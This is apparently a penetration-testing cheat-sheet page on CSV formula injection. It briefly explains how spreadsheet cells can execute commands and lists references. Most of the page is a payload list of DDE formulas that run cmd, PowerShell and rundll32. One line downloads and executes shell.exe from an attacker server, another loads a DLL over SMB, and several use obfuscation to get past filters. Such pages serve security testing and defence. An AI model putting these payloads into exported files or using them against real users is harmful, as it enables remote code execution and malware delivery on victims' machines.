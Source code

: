 # CSV Injection

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

# Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

# Using rundll32 instead of cmd
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A

# Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A

```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/www-community/attacks/CSV_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)
* [Three New DDE Obfuscation Methods](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
* [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)

